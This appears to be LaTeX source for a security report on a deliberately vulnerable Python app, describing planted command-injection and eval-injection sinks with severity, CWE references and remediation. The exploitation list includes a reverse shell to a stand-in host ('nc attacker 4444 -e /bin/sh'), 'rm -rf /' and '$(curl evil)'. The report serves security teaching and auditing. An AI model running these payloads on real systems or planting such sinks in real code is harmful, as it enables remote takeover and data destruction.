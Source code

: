 \documentclass[11pt,a4paper]{article}
\begin{document}
\vspace{4pt}\hrule\vspace{6pt}
\subsection{VULN-06: CWE-78: OS Command Injection}
\noindent\textbf{Location:} \texttt{src/vulnapp/injection\_vulns.py}, line 50 \quad \textbf{Rule:} \texttt{python/os-command-injection} \quad \textbf{Severity:} 8.0
\\ \textbf{Reference:} \url{https://cwe.mitre.org/data/definitions/78.html}

\noindent\textbf{Planted sink:}
\begin{lstlisting}
return os.popen(cmd).read()
\end{lstlisting}
\noindent\textbf{What it is.} OS command injection: untrusted input is concatenated into a shell/command invocation.

\noindent\textbf{Exploitation variants.}
\begin{itemize}[leftmargin=1.4em,itemsep=1pt,topsep=2pt]
\item Inject shell metacharacters: `; rm -rf /`, `| nc attacker 4444 -e /bin/sh`, `\$(curl evil)`.
\item Use `\&\&`, `||`, backticks or `\$()` to chain arbitrary commands.
\item On `Runtime.exec(String)` the string is split naively, so spaces/quotes can be abused.
\end{itemize}
\noindent\textbf{Remediation.} Avoid the shell; use ProcessBuilder with an argument array and a fixed command, validate arguments.

\vspace{4pt}\hrule\vspace{6pt}
\subsection{VULN-07: CWE-95: Code Injection (eval/exec)}
\noindent\textbf{Location:} \texttt{src/vulnapp/injection\_vulns.py}, line 55 \quad \textbf{Rule:} \texttt{python/code-injection} \quad \textbf{Severity:} 8.0
\\ \textbf{Reference:} \url{https://cwe.mitre.org/data/definitions/95.html}

\noindent\textbf{Planted sink:}
\begin{lstlisting}
return eval(expr)
\end{lstlisting}
\noindent\textbf{What it is.} Eval injection: untrusted input is passed to a dynamic-evaluation primitive (eval/exec/compile), so the attacker's data is executed as code.
\end{document}

